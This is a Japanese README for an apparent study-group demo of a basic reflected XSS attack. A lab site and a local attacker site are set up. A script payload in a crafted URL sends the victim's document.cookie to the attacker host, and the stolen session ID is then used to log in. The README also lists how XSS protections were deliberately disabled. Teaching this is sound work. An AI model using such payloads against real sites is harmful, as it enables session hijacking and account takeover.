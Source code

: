 # XSSの初歩的な例と実害

を説明するデモです．

## 状況

XSS (_クロス_ サイト スクリプティング) の性質上，localhostの他にも別サイトが必要でした．

<dl>
  <dt>http://脆弱サイト.com:8000</dt>
  <dd>脆弱性を持ったサイト(以下，脆弱サイト)．ログイン機能がある．</dd>

  <dt>http://localhost:5000</dt>
  <dd>攻撃者の用意したサイト(以下，攻撃者サイト) ．</dd>

  <dt>被害者</dt>
  <dd>脆弱サイトのユーザ．攻撃者に脆弱サイトへログインされてしまう．</dd>
</dl>

## 脆弱サイトをいじってみる

```bash
$ google-chrome http://脆弱サイト.com:8000
```

1. `/` において， `user: sampleuser`, `pass: samplepass` と入力してログイン
1. `/login` にて，「ようこそ，sampleuserさん!!」と表示されることを確認

_攻撃目的: `sampleuser/samplepass` を知らないのに，`sampleuser`としてログインする_

## 攻撃手順

### 攻撃者サイトを準備

```bash
$ cd 20131117-tokumaru-benkyokai/sample-sites/attacker-sites/ex00_WhatIsXSS
$ carton install  # 大体5分以上かかります・・・・
$ carton exec perl -Ilib script/ex00_whatisxss-server
$ google-chrome http://localhost:5000
```

### 怪しいリンクを踏ませて脆弱サイトのCookieを入手

1. 下記リンクは，攻撃者がTwitterなどにポストする(短縮URLなど使うとなおのこと引っ掛けやすい)
1. 被害者が下記リンクを踏む
1. 脆弱サイトにてXSS攻撃が成立する
1. 攻撃者サイトにリダイレクトされ，攻撃者サイトに脆弱サイトのCookieが表示される(表示されるということは，その文字列を攻撃者サーバに保存することも容易)

```bash
$ google-chrome --disable-xss-auditor "http://脆弱サイト.com:8000/status?uid=%3Cscript%3Ewindow.location=%22http://localhost:5000/?cookie=%22%2bdocument.cookie%3C/script%3E"
```

_注意: まともなブラウザなら，単純なXSS攻撃は検知してscript実行を中止する．`--disable-xss-auditor`によってchromeにわざとXSS攻撃に引っかかってもらう．_

### Cookie中のセッションIDを使って脆弱サイトにログイン

1. 攻撃者は先程手にしたセッションIDをコピー
1. 下記のように脆弱サイトにアクセスし，ログインが成立

```bash
$ google-chrome http://脆弱サイト.com:8000/login?sid=[セッションID]
```


## 付録

### 攻撃者サイトの準備

```bash
$ cd 20131117-tokumaru-benkyokai/sample-sites/vulnerable-sites/ex00_WhatIsXSS
$ sqlite3 db/development.db < sql/sqlite.sql
$ carton install
$ carton exec perl -Ilib script/ex00_whatisxss-server --host=[IPアドレス] --port=[ポート番号]
```

### Amon2とGoogle Chromeを脆弱にするためにわざわざやったこと

最近のブラウザやらWebアプリフレームワークやらは脆弱性対策されてるんですね．
おい! 誰だPHPの話したの!! 関係ないだろ!!!!

<dl>
  <dt>ChromeのXSS検知&防止機構を無効にする</dt>
  <dd>起動オプションに --disable-xss-auditor をつけて，サーバからのレスポンスヘッダには<a href="/sample-sites/vulnerble-sites/ex00_WhatIsXSS/lib/Web.pm#L47">X-XSS-Protectionを0に指定</a></dd>

  <dt>XslateのHTMLエスケープを無効化</dt>
  <dd><a href="/sample-sites/vulnerable-sites/ex00_WhatIsXSS/tmpl/status.tx#L10">mark_raw 指定をする</a></dd>
</dl>
